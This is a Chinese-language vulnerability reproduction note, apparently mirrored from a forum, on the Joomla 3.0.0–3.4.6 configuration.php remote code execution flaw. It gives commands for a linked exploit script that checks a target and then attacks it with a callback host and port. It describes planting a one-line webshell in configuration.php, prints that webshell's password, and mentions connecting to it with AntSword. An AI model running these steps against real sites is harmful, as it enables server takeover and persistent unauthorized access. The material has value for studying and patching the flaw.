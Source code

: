 # Joomla 3.4.6 - 'configuration.php' Remote Code Execution

> 原文：[https://www.zhihuifly.com/t/topic/2998](https://www.zhihuifly.com/t/topic/2998)

# Joomla 3.4.6 configuration.php 远程代码执行

## 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

## 二、影响范围

Joomla 3.0.0 至 3.4.6

## 三、复现过程

https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution

### 脚本验证

验证：

```
python3 test.py -t http://127.0.0.1:8080/ 
```

![image](img/e87feef9082c4fb8ad5a0db6d3696dad.png)

显示“Vulnerable”证明存在漏洞

利用：

```
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121 
```

![image](img/088d991b97a4e5060a5d5032ff4e2ff6.png)

执行成功

并在“configuration.php”写入**随机密码**的一句话木马

![image](img/797a820246def864e0f14cfa5113520a.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![image](img/4ffcfeb2b4e40eea33f890726faf57ad.png)